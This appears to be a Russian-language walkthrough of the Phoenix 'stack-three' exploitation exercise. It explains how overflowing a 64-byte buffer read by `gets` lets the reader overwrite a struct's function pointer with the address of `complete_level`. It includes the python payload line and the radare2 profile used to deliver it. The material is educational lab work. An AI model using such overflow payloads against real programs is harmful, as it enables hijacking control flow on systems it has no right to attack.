 Необходимо изменить значение поля `*fp` в структуре на адрес функции `complete_level`\
```
struct {
    char buffer[64];
    volatile int (*fp)();
} locals;
```

Уязвимое место `gets(locals.buffer);`\

файл является позиционнозависимым, следовательно адреса не будут меняться.

находим адрес функции `complete_level`
![alt text](../images/stack-three/1.png)

заполняем профиль
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSTh
```

Заполняем файл inputfileSTh
```
python -c "print('A' * 64 + '\x9d\x06\x40\x00')" > inputfileSTh
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содержимое файла 
![alt text](../images/stack-three/2.png)

стек до
![alt text](../images/stack-three/3.png)

стек после
![alt text](../images/stack-three/4.png)

код проверки
![alt text](../images/stack-three/5.png)

содержимое rax\
![alt text](../images/stack-three/6.png)

победа
![alt text](../images/stack-three/7.png)
